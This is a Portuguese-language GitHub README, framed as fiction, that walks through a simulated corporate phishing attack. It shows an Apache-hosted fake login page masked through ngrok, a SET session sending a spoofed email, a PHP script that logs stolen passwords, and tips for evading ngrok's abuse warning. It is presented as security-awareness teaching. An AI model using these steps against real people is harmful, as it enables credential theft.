


# 🏢 Operação Aurora: Simulação Fictícia de Phishing Corporativo

# 🕵️‍♂️ Visão Geral

A Operação Aurora é um estudo fictício que simula um ataque controlado de phishing dentro de um ambiente corporativo.
O objetivo é demonstrar, de forma lúdica e didática, como ocorre uma cadeia completa de engenharia social desde a isca até a captura de dados em um cenário totalmente fictício.

# Cenário e Personagens

## 👨‍💼 Johnny Silverhand

Funcionário comum da Aurora Corporation, que sem saber estava prestes a cair na teia do mal.

Seu endereço de email constava em um vazamento de dados que foi vendido em uma negociação realizada entre entidades secretas por meio da Dark Web utilizando criptomoedas. Tudo muito discreto, e dificíl de rastrear.

silverhand.johnny@gmail.com

*— Isso que da se cadastrar em site de namoro fajuto*

## 🔦 O Grupo “Lanternas Pretas”

Um coletivo de cybercriminosos cujo o nome faz claramente referência a *black hats* o mesmo que *criminosos digitais*.

Correspondem a uma parcela que teve acesso aos dados vazados e decidiu tirar proveito disso.

O grupo já tinha interesses na Aurora Coporation e com isso passaram a monitorar Johnny Silverhand durante um periódo, investigando seu comportamento por meio de fontes públicas e acessíveis... foi então que dado um determinado padrão de suas postagens no LinkedIn sobre os resultados alcançados pelo seu setor foi fácil presumir que o funcionário seguia uma agenda e tinha um superior imediato chamado John Doe devido a demasiados agradecimentos por parte de Johnny em seus posts.

*— Quanta humilhação!!*

Com o final do mês se aproximando, o grupo hacker então deduziu que haveria a possibilidade da formulação de um novo calendário a ser seguido para o mês que estava por vir.

Essas informações ja seriam suficientes para os criminosos arquitetarem o que seria o primeiro de uma sequência de ataques de um plano maior com
intenção de prejudicar Aurora Corporation.

## ☀️ Mais um dia normal de trabalho na semana de Johnny

Ele chega ao escritório às 8h00, se dirige a sua sala para isso ele precisa usar o elevador, chegando em seu andar Johnny entra na sala do setor de comunicação... se aproxima da sua mesa e liga seu computador.



## 🔧 Preparatórios

O hackers utilizaram ferramentas como...

* Servidor Apache2

* SET *(social-engineer-toolkit)*

* Templates prontos de páginas de captura de credenciais *(https://github.com/wifiphisher/extra-phishing-pages)*.

O objetivo aqui é reproduzir o *modus operandi* de um ataque típico de engenharia social no meio corporativo.

# ↗️ Página Falsa (VETOR)

```
Para utilizar um template basta com que a raíz do seu servidor /var/www/html contenha o modelo pronto.

Algo parecido com isso...

www
└── html
    ├── static/
    ├── index.html
└── config.ini

Feito isso é só executar o servidor apache
```

Lembrando que é possivél criar seu próprio template que encaixe melhor em determinados contextos de campanhas, ou seja, em casos específicos.

Esse será o vetor, uma url mal intencionada encaminhada em uma mensagem de email na esperança de induzir o acesso do alvo.

## 🌀 Túneis

Para dar mais veracidade à página os Lanternas Pretas usaram tunelamento via ```ngrok``` para mascarar a URL tornando o vetor + "verídico" e parecido com a realidade, para que o alvo nem desconfie.

### 👀 Observações

1. O tipo de vetor pode variar a depender dos cenários... por exemplo é possivel fazer a injeção dessa mesma url em um QRCode usando o componente disponível no SET que proporciona versatilidade.

# ❓ A Isca

Com o portal de captura pronto, os Lanternas Pretas construiram uma isca: um e-mail corporativo simples, autoritário e com ordem de ação.

Elementos psicológicos são o ponto alto da exploração da engenharia social. Para isso usa-se o SET.

```
1.  E-Mail Attack Single Email Address

Esse Componente alveja apenas um único alvo e basta para usar nesta simulação, porem o SET é bem versátil permitindo importar vários alvos de uma vez.
```

É possivel utilizar modelos de mensagens já prontas disponíveis no SET, ou criar uma que reflita no escopo. Aqui foi incluído o endereço na mensagem como carga útil. O resultado é algo parecido com...

```
set:phishing> Subject of the email: Mudança nos horários
set:phishing> Enter the body of the message, type END (capitals) when finished: Veja as alterações feitas no calendário do próximo mês.
Next line of the body:
Next line of the body: Link para acessar a planilha
Next line of the body: https://XXXXXXXXXXXXX.ngrok-free.app
Next line of the body: END
set:phishing> Send email to: silverhand.johnny@gmail.com **EMAIL DO ALVO**
set:phishing> The FROM NAME the user will see: John Doe **NOME DO REMETENTE**
```

A idéia da mensagem foi induzir Johnny obedecer a ordem de um funcionário de hierarquia maior e checar as alterações dos horários para se manter atualizado visto que logo se inicía o próximo mês.

## 🔒 Captura de Credenciais

Aqui é necessário criar um arquivo coringa utilizando linguagem de programação, php neste caso do servidor apache que será referenciado ao executar a requisição POST do formulário falso aplicando a lógica que captura as credenciais. Ex.:

```PHP
<?php
$raw = file_get_contents("php://input");
$data = json_decode($raw, true);

error_log("EMAIL: " . $data["email"]);
error_log("PASSWORD: " . $data["password"]);

echo "OK";
?>
```

---

Eis que Johnny termina de tomar seu café matinal como de costume olha para o relógio percebe que ja são 9h30 e decide começar seu trabalho,e então recarrega sua caixa de entrada e percebe uma nova mensagem no nome de seu CHEFE.


Sem pensar duas vezes johnny rapidamente clica no link que o leva para fazer login em sua conta google pois a corporação Aurora utiliza esse serviço de núvem para compartilhamento dos dados da organização.



*— Eu sei, eu sei, não mencionei mas sim os funcionários dessa empresa não possuem muito preparo quando se trata de segurança digital.*

Bastou o crimonosos aguardarem e acompanhar os logs de saída do servidor e em questão de minutos... VOILÀ a presa caiu na armadilha, o peixe mordeu a isca.

```log
[php:notice] ... [] EMAIL: silverhand.johnny@gmail.com, referer: https://XXXXXXXXXXXXX.ngrok-free.app
[php:notice] ... [] PASSWORD: s1lv3rh4nd1sfr34k, referer: https://XXXXXXXXXXXXX.ngrok-free.app
```

## ⌛ Ilusão

Se tratando de hackers que são muito experientes e bons no que fazem, não era de se esperar menos que um redirecionamento para um carregamento infinito ludibriando ainda mais a vítima que não faz idéia que está caindo em um golpe permitindo que o grupo ganhe vantagem de tempo.

Não parece mas a execução desses ataques ocorrem de forma muito rápida e orquestrada.


### 👀 Observações

1. A veracidade da mensagem de email vai depender da quantidade de tempo e energia investido para construi-la.
2. O plano pago do ```ngrok``` permite personalizar melhor a url fazendo se parecer + com um domínio real. *Ex.: docs.google.sheets.com, any.domain.net, ...*
3. O Tuneis gratuitos do ```ngrok``` enviam uma página de alerta para evitar abusos alertando. *(estragando um pouco a experiência)*
4. Mas NADA que o DINHEIRO não resolva, tuneis pagos do ```ngrok``` permitem *skipar* esse aviso fazendo com o que o usuário caia direito na página fake sem aviso prévio alterando o arquivo de configuração do ```ngrok``` com alguns metadados específicos.

### 🎯 E foi assim que o temido Johnny Silverhand teve seus dados de acesso expostos e comprometidos, mal sabia ele que isso ia desencadear uma sequência de acontecimentos que botaria a empresa em situação alarmante.

# ⏩ Próximos Passos

- Explorar o uso de anexos/arquivos como vetor de phishing
- Utilizar o recurso attach file do SET dentro do enredo fictício
- Malwares como carga útil


# ⚠️ Aviso ⚠️

Este documento descreve uma história totalmente fictícia, criada apenas para fins educacionais e de assimilação de conceitos relacionados a engenharia social, conscientização em segurança digital e análise de comportamento diante de golpes.
Nenhum procedimento aqui mencionado deve ser utilizado com finalidade maliciosa.
Nada neste estudo incentiva, promove ou apoia qualquer atividade ilegal, invasão de privacidade, violação de sistemas ou obtenção indevida de informações.
A prática de ataques reais sem autorização é crime e pode resultar em severas consequências legais.
